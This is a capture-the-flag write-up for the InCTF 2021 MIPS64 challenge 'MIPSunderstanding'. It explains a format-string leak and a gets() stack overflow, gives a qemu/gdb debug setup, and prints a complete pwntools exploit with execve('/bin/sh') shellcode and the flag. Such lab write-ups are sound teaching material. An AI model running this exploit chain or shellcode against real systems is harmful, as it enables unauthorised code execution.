 ```yaml
---
title: InCTF Nationals 2021 MIPSunderstanding writeup
date: 2022-01-10
postLayout: simple
cover: '@/assets/cover/inctf.png'
summary: Introductory blog detailed with how to effectively setup weird architecture exploit environment with the help of qemu emulation and debugging with gdb server.
tags:
- "linux"
- "ctf"
- "mips"
---
```


![](https://i.imgur.com/qUtdCzM.png "MIPSunderstanding")

# Checksec

<pre>
    Arch:     mips64-64-little
    RELRO:    <font color="#FD5FF1">No RELRO</font>
    Stack:    <font color="#FD5FF1">No canary found</font>
    NX:       <font color="#87C38A">NX enabled</font>
    PIE:      <font color="#87C38A">PIE enabled</font>
    RWX:      <font color="#FD5FF1">Has RWX segments</font>
</pre>

# Overview

```yaml
chall: ELF 64-bit LSB pie executable, MIPS, MIPS-III version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

It's an easy challenge. Lets open the binary in ghidra and analyse the binary. Well there's alot of junk code in it so ill straight up show you the `thiago` and `keita` function.

## keita

![](https://imgur.com/uhEsnyT.png)

## thiago

![](https://imgur.com/jcPHCE5.png)

So there are two bugs here.

1. Format string bug for Information disclosure bug. We control the first parameter passed to printf and we can use this bug to leak the address where the binary is being loaded and bypass ASLR. 
2. A stack buffer overflow bug because of using the gets function to read input.

Now lets dive into exploitation. But the most important part is to setup an debug environment for mips.

# Setting up the debug environment

I always use this template given by [X3eRo0](https://twitter.com/X3eRo0) to debug different arch pwn challenges

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit=b""
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io=remote("gc1.eng.run", "32113")
io.interactive()
```

so with this `expl.py` you can debug the pwn challenge easily.

![debug-setup](https://imgur.com/arvqUwR.png)
Also one more thing to mention here

```yaml
# gef checksec command inside qemu
gef➤  checksec
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

**NX is actually <span style={{ color: 'red' }}>disabled</span> inside qemu**. To enable NX they have to patch the qemu binary. Also use gdb-gef instead of pwndbg because pwndbg has alot of issues when it comes to weird architectures.

Lets start to build exploit.

# Exploit

1. Use the `keita` function to leak pie address
2. Use the `thiago` function to overflow the stack and return to your shellcode

```python expl.py https://raw.githubusercontent.com/4n0nym4u5/CTF-Writeups/main/MIPSunderstanding/exploit.py expl.py
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall', checksec=False)
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit="A"*512
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io = process(["./qemu-mips64el", exe.path])

reu(b"+---------------------------------------+\n")
reu(b"+---------------------------------------+\n")
sl(b"A")
sleep(5)
reu(b"Enter the price you are willing to offer !!\n")
sl(b"%1$p")
sleep(5)
main=int(GetInt()[0])-0x18240b4
exe.address = main-exe.sym.main
shellcode_addr=exe.address+0x1827d80+0x30
info(f"Pie base : {hex(exe.address)}")
info(f"Shellcode: {hex(shellcode_addr)}")
sl(b"1")
re()
sl(b"C")
padding=b"A"*32
rop = flat([
    padding,
    0xdeadbeef,
    exe.address+0x1827d80,
])
sleep(5)
re()
shellcode =  b""
shellcode += b"\x62\x69\x0c\x3c"
shellcode += b"\x2f\x2f\x8c\x35"
shellcode += b"\xf4\xff\xac\xaf"
shellcode += b"\x73\x68\x0d\x3c"
shellcode += b"\x6e\x2f\xad\x35"
shellcode += b"\xf8\xff\xad\xaf"
shellcode += b"\xfc\xff\xa0\xaf"
shellcode += b"\xf4\xff\xa4\x67"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xc1\x13\x02\x24"
shellcode += b"\x0c\x01\x01\x01"

# https://www.exploit-db.com/exploits/45287

sl(rop + b"\x00\x00\x00\x00"*32 + shellcode) # \x00\x00\x00\x00 is nops in mips64
reu(b"+---------------------------------------+\n")
sleep(5)
io.interactive()
```

[![asciicast](https://asciinema.org/a/461708.svg)](https://asciinema.org/a/461708)

> InCTF&#123;w3_sh4ll_not_b3_m0v3D_132244345&#125;